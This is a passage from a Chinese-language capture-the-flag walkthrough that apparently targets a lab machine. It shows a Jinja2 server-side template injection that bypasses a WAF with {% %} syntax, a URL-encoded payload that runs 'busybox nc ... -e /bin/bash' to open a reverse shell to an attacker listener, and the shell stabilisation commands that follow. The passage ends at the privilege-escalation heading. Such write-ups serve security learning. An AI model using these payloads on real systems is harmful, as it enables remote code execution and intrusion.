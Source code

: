 成功绕过WAF！使用的payload为：`{% set x=7*7 %}{% print(x) %}`

> **技术要点：** 当SSTI中的 `{{}}` 语法被WAF拦截时，可以尝试使用 `{% %}` 语法绕过。这是Jinja2模板引擎的另一种语法形式。

## 4.3 获取反向Shell

构造反向Shell payload。首先在本地监听：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888               
listening on [any] 8888 ...
```

利用Python SSTI执行系统命令：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl -g 'http://192.168.205.171:5000/library?touhou=%7B%25%20set%20x%3D%28%29.__class__.__bases__%5B0%5D.__subclasses__%28%29%5B104%5D.__init__.__globals__%5B%27sys%27%5D.modules%5B%27os%27%5D.popen%28%27busybox%20nc%20192.168.205.128%208888%20-e%20/bin/bash%27%29%20%25%7D'
```

成功获得反向连接：

```bash
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.171] 43664
id
uid=1000(marisa) gid=1000(marisa) groups=1000(marisa)
```

> **Payload详解：** 
>
> - `().__class__.__bases__[0]` - 获取object基类
> - `.__subclasses__()[104]` - 获取subprocess.Popen类（索引可能需要调整）
> - `.__init__.__globals__['sys'].modules['os']` - 通过全局变量获取os模块
> - `.popen()` - 执行系统命令

# 五、Shell稳定化

使用标准方法稳定Shell：

```bash
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 36 columns 178
```

# 六、权限提升

## 6.1 系统信息收集
